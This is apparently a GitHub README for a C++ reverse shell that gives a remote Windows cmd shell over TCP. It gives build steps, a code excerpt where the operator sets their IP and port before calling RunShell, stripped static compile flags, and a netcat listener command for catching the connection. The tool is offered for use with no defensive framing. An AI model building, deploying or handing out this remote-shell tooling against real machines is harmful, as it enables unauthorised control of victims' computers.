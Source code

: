 # C ++ Reverse Shell

This is a simple C++ based reverse shell give us a windows  cmd shell over TCP .  


## installation

    $ apt install mingw-w64
    $ git clone https://github.com/dev-frog/C-Reverse-Shell.git
    $ cd C-Reverse-Shell
  


##  change The IP and Port number in the source code

There is **re.cpp** file you have to open and change the **ip address** and **port number**

![alt text](https://github.com/dev-frog/C-Reverse-Shell/blob/master/img/re.PNG)

    70 else {
    71    char host[] = "192.168.0.101";  // change this to your ip address
    72    int port = 4444;                //chnage this to your open port
    73    RunShell(host, port);
    74}
    


## Compile it

    g++ re.cpp -o re.exe -lws2_32 -lwininet -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc res.res

## Start  the netcat Listener
 

     nc -lvnp <port number>

